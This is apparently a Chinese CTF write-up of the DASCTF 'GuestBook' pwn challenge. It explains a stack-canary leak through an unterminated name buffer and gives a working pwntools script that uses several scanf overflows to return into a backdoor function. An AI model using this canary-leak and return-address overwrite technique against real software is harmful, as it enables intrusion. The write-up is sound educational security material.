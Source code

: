 ```yaml
---
title: DASCTF月赛 - GuestBook
date: 2023/12/3 12:00:00
tags:
    - noob
excerpt: 通过分析GuestBook程序，利用canary泄露和栈溢出成功调用后门函数。
---
```


From CBCTF x DASCTF

## 文件分析

下载`GuestBook`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

name上就是canary，首先填满name使得canary值泄露；  
还要注意输入时使用的是scanf，虽然可以栈溢出，但是遇到空字符会截断，
需要多次溢出，实现跳转到`magic`后门函数

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 27847)

# payload 1, leak canary
sh.sendline(b'0'*23 + b'.')

sh.recvuntil(b'.\n') # skip
canary = u64(b'\0' + sh.recvuntil(b'!')[:7])
magicAddr = 0x4012c3

# payload 2, scanf 3 times to return to magic
sh.sendline(b'3')
sh.sendline(b'0'*0xa8 + p64(magicAddr)) # call magic, keep rsp balance
sh.sendline(b'0'*0x79 + p64(canary)[1:]) # fill canary except for the first 0x00
sh.sendline(b'0'*0x58) # fill canary 1st byte with 0x00

sh.interactive()
```

Done.
